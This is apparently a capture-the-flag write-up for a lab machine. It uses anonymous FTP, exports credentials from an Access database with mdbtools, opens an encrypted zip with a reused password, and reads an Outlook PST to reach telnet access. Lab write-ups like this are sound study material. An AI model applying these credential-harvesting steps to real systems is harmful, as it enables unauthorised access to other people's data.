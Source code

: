 This is the first writeup in the series.
After accessing to http://10.10.10.98/ we get a picture of servers and a title named "LON-MC6". 
Searching in the internet for the name results in a server name. Basically, we have nothing else in the webiste.
The source code is empty.



Okay, so after searching on the internet, I've figured that the default download way for my ftp client ('ftp' in debian) is ASCII where is the targeted file should be downloaded as binary. 
```ftp> lcd /root/Documents
Local directory now /root/Documents  //Desired destination on local machine
ftp> binary
---> TYPE I
200 Type set to I.
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
---> PORT 10,10,13,77,235,177
200 PORT command successful.
---> RETR backup.mdb
125 Data connection already open; Transfer starting.
226 Transfer complete.
5652480 bytes received in 13.63 secs (405.0628 kB/s)
```
Now in order to handle mdb files, we need to install mdbtools. Kali linux has it preinstall. Let's dive into the file:
```
mdb-schema backup.mdb
.
.
.
(alot of tables)
```
We have alot of data. Obviously we want to have username and password for the ftp server. Let's find the password field:
```
root@kali:~/Documents# mdb-schema backup.mdb | awk -vRS='' '/password/'     //looking for password field.
CREATE TABLE [auth_user]
 (
	[id]			Long Integer, 
	[username]			Text (100), 
	[password]			Text (100), 
	[Status]			Long Integer, 
	[last_login]			DateTime, 
	[RoleID]			Long Integer, 
	[Remark]			Memo/Hyperlink (255)
);
```
Now we know the interesting table name - auth_users.
Let's export it and see what we have:
```
root@kali:~/Documents# mdb-export backup.mdb auth_user
id,username,password,Status,last_login,RoleID,Remark
25,"admin","**",1,"08/23/18 21:11:47",26,
27,"engineer","**",1,"08/23/18 21:13:36",26,
28,"backup_admin","**",1,"08/23/18 21:14:02",26,
```
I thought these credentials would log me into the ftp server, but it seems that the ftp server is configured to anonymous logins only. I guess we are left only with the second file, so I downloaded it. It is encrypted with AES and the default linux unzip program doesn't support password extraction of this kind (the file was probably encrypted in Windows system). Therefore, one can download a tool called 7z. Kali comes with it preloaded. I tried engineer's password (the file was located in Engineer) and it worked:
```
ftp>get 'Access Control.zip'
root@kali:~/Documents# 7z x control.zip

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,1 CPU Intel(R) Core(TM) i7-7500U CPU @ 2.70GHz (806E9),ASM,AES-NI)

Scanning the drive for archives:
1 file, 10870 bytes (11 KiB)

Extracting archive: control.zip
--
Path = control.zip
Type = zip
Physical Size = 10870

    
Enter password (will not be echoed):
Everything is Ok         

Size:       271360
Compressed: 10870
```
Now we have a .pst file, which is Microsoft Outlook email folder. Googling for it leads to a program named readpst:
```
root@kali:~/Documents# readpst 'Access Control.pst' 
Opening PST file and indexes...
Processing Folder "Deleted Items"
	"Access Control" - 2 items done, 0 items skipped.
```
Now we have the email file itself. It contains a username and a password. It's probably for the telnet. Let's proceeed:
```
C:\Users\security\Desktop>type user.txt
***
```
After searching for interesting files I have found this one in the desktop. It seems like a hash. 



